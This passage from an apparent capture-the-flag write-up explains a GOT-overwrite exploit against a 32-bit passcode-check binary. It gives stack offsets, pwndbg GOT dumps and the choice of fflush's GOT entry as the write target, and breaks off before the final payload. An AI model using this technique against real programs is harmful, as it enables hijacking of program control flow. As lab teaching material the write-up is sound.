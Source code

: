 ```
- Distance between ```name``` and ```password1``` = 0x70 - 0x10 = 0x60 = 96

- Distance between ```password1``` and ```password2``` = 0x10 - 0xc = 4

So ```passcode1``` occupies the last 4 bytes of ```name[100]```

Since we are using ```scanf()``` to get inputs, we can attack with it by our input 

It is time to perform "arbitrary write/GOT overwrite" with this buffer

For more on [GOT Overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628)

Lets try it on the binary,

The GOT and GOT-PLT from this program,

```
pwndbg> gotplt
0x804a000: printf@got.plt
0x804a004: fflush@got.plt
0x804a008: __stack_chk_fail@got.plt
0x804a00c: puts@got.plt
0x804a010: system@got.plt
0x804a014: __gmon_start__@got.plt
0x804a018: exit@got.plt
0x804a01c: __libc_start_main@got.plt
0x804a020: __isoc99_scanf@got.plt
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 9

[0x804a000] printf@GLIBC_2.0 -> 0xf7d63340 (printf) ◂— endbr32
[0x804a004] fflush@GLIBC_2.0 -> 0x8048436 (fflush@plt+6) ◂— push   8
[0x804a008] __stack_chk_fail@GLIBC_2.4 -> 0x8048446 (__stack_chk_fail@plt+6) ◂— push   0x10
[0x804a00c] puts@GLIBC_2.0 -> 0xf7d80cd0 (puts) ◂— endbr32
[0x804a010] system@GLIBC_2.0 -> 0x8048466 (system@plt+6) ◂— push   0x20 /* 'h ' */
[0x804a014] __gmon_start__ -> 0x8048476 (__gmon_start__@plt+6) ◂— push   0x28 /* 'h(' */
[0x804a018] exit@GLIBC_2.0 -> 0x8048486 (exit@plt+6) ◂— push   0x30 /* 'h0' */
[0x804a01c] __libc_start_main@GLIBC_2.0 -> 0xf7d2ddf0 (__libc_start_main) ◂— endbr32
[0x804a020] __isoc99_scanf@GLIBC_2.7 -> 0xf7d64440 (__isoc99_scanf) ◂— endbr32
```

We know we could control ```passcode1``` from ```name```

We can write the ```passcode1``` value with the last 4 bytes from ```name```

So we can use this to perform "GOT hijacking"

If we pass  GOT address value of some function in ```passcode1```,and the ```scanf()``` function gets the neccessary argument in ```int``` format, the function gets executed correctly
 
Here ```fflush()``` is the perfect target for GOT Overwrite

For ```fflush()```,

```
[0x804a004] fflush@GLIBC_2.0 -> 0x8048436 (fflush@plt+6) ◂— push   8
```

The GOT address of ```fflush()``` is ```0x804a004```

Now with 96 bytes of junk we will be passing this GOT value of ```fflush()``` so that our "input1" will be passed as argument to this ```fflush()```

```
